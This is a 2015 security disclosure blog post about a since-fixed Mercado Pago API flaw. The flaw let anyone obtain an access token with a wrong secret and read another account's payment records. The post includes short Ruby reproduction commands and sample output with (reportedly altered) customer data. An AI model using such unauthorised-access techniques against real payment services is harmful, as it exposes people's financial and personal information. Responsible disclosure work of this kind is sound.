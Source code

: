 ```yaml
---
layout: post
title: "Mercado Pago Security Hole"
date: 2015-07-14 23:29:00
reviewed: 2020-03-05 10:00:00
categories: ["security"]
author: etagwerker
---
```


On April 17th we discovered a security vulnerability in the [Mercado Pago API](https://www.mercadopago.com.ar/developers/en/api-docs/). Before disclosing this information, we contacted [Mercado Libre](http://www.mercadolibre.com/) and sent them a detailed report of the security hole and how to reproduce it.

The vulnerability allowed anyone to get an access token without using the right secret for an account.

<!--more-->

You can see how the authentication process works on Mercado Pago over here: [https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/](https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/)

After 7 hours, Mercado Pago fixed the vulnerability in their production environment.

## How we reproduced the bug

This example uses Ruby 2.1.2 and the [mercadopago](https://rubygems.org/gems/mercadopago) gem.

    2.1.2 :001 > token = MercadoPago::Authentication.access_token("8872", "lalalala")

The first parameter is the client id (an account in Mercado Pago) and the second parameter is the secret (only the account holder should know this)

For client id we used `8872` which doesn't belong to us and for secret we used `lalalala` to show that it wasn't really *the right secret.*

With that information, we were able to acquire the token. With it you can access a lot of information associated with the payments in the account.

For example:

```ruby
2.1.2 :002 > response = MercadoPago::Collection.search(token["access_token"], status: :approved)
```

With this query, you could see all the approved transactions for an account **that didn't belong to you**.

For example:

```ruby
=> {"paging"=>{"total"=>98, "limit"=>30, "offset"=>0},
    "results"=>[
      {"collection"=>{"id"=>753859418, "site_id"=>"MLA",
       "date_created"=>"2014-03-13T16:58:20.000-04:00",
       "date_approved"=>"2014-03-13T17:00:38.000-04:00",
       "last_modified"=>"2014-03-13T17:00:38.000-04:00",
       "money_release_date"=>"2014-03-15T17:00:38.000-04:00",
       "operation_type"=>"regular_payment",
       "collector_id"=>16605960, "sponsor_id"=>nil,
       "payer"=>{
         "nickname"=>"XOMBULABSX",
         "first_name"=>"JON",
         "last_name"=>"SNOW",
         "phone"=>{"area_code"=>"291", "number"=>"123412", "extension"=>nil},
         "email"=>"security@ombulabs.com",
         "id"=>83110350,
         "identification"=>{"type"=>nil, "number"=>nil}},
         "external_reference"=>"1448",
         "merchant_order_id"=>11567450,
         "reason"=>"Premium package", "currency_id"=>"ARS",
         "transaction_amount"=>81, "total_paid_amount"=>81,
         "shipping_cost"=>0,
         "account_money_amount"=>0,
         "mercadopago_fee"=>4.85,
         "net_received_amount"=>76.15,
         "marketplace_fee"=>nil,
         "coupon_id"=>nil,
         "coupon_amount"=>nil,
         "coupon_fee"=>nil,
         "finance_fee"=>0,
         "status"=>"approved",
         "status_detail"=>"accredited",
         "status_code"=>"00",
         "released"=>"yes",
         "payment_type"=>"credit_card",
         "installments"=>1,
         "installment_amount"=>nil,
         "deferred_period"=>nil,
         "cardholder"=>{"name"=>"JON SNOW", "identification"=>{"type"=>"DNI", "number"=>"26000000"}},
         "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
         "transaction_order_id"=>nil, "marketplace"=>"NONE", "tags"=>[],
         "notification_url"=>nil}},
      {"collection"=>
        {"id"=>756415807,
        "site_id"=>"MLA",
        "date_created"=>"2014-03-20T15:42:35.000-04:00",
        "date_approved"=>"2014-03-20T15:42:35.000-04:00",
        "last_modified"=>"2014-03-20T15:42:35.000-04:00",
        "money_release_date"=>"2014-03-22T15:42:35.000-04:00",
        "operation_type"=>"regular_payment",
        "collector_id"=>16605960,
        "sponsor_id"=>nil,
        "payer"=>{
          "nickname"=>"YOURNICKNAME",
          "first_name"=>"Matias",
          "last_name"=>"OMBU",
          "phone"=>{"area_code"=>"291", "number"=>"4000000", "extension"=>nil},
          "email"=>"hola@ombulabs.com",
          "id"=>18878708,
          "identification"=>{"type"=>nil, "number"=>nil}},
        "external_reference"=>"1457",
        "merchant_order_id"=>13031193,
        "reason"=>"Premium package",
        "currency_id"=>"ARS",
        "transaction_amount"=>81,
        "total_paid_amount"=>81,
        "shipping_cost"=>0,
        "account_money_amount"=>0,
        "mercadopago_fee"=>4.85,
        "net_received_amount"=>76.15,
        "marketplace_fee"=>nil,
        "coupon_id"=>nil,
        "coupon_amount"=>nil,
        "coupon_fee"=>nil, "finance_fee"=>0,
        "status"=>"approved",
        "status_detail"=>"accredited",
        "status_code"=>"00",
        "released"=>"yes",
        "payment_type"=>"credit_card",
        "installments"=>1,
        "installment_amount"=>nil,
        "deferred_period"=>nil,
        "cardholder"=>
          {"name"=>nil,
           "identification"=>{"type"=>nil, "number"=>nil}},
        "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
        "transaction_order_id"=>nil,
        "marketplace"=>"NONE",
        "tags"=>[],
        "notification_url"=>nil}},
        ...
      }
```

*The sensitive information in this code snippet has been intentionally changed*

So, during the time that this vulnerability was live (at least 7 hours) an attacker could have used it to:

* Find information about all the payments that your account had received since you started using the service

* Find information about your clients, their DNI, name, phone number

All the attacker needed to exploit this vulnerability was a Mercado Pago account ID and some basic tech knowledge.

## How we discovered this bug

At [OmbuShop](http://www.ombushop.com), our integration tests use the Mercado Pago sandbox to check that the amount that a client has to pay is correct. I know that this isn't ideal (or is it?) but it's as real as it gets for our integration tests.

One of our tests checked that you couldn't get collections information with the wrong user credentials. When the test started failing in our continuous tests, we started digging around and found this security hole.

## What worries me

It's hard to understand how such a big payment processor never published information about this security hole. I would expect them to know if some information was accessed by people who didn't have access to it.

They could check their access logs and see who accessed their API using a secret that wasn't the right one. Then they could inform their customers of this problem and warn them about this situation.

Mercado Pago, a product of Mercado Libre ([$MELI](http://www.nasdaq.com/symbol/meli)) which is a publicly traded company, doesn't even have public versioning information of their API nor a continuous integration suite that would catch such an obvious vulnerability.

Maybe I am just used to the security reports published by Github about [their vulnerabilities](https://github.com/blog/1068-public-key-security-vulnerability-and-mitigation). Maybe Github is way more serious than Mercado Pago about privacy and online security.

I think that Mercado Pago needs to step up their game and be more transparent about their platform and user privacy.

A good place to start would be a better way to receive security vulnerability reports and disclosing information about their security problems.

Until today, they haven't disclosed any information about this security hole and it's very hard to find a way to report a security issue to them.
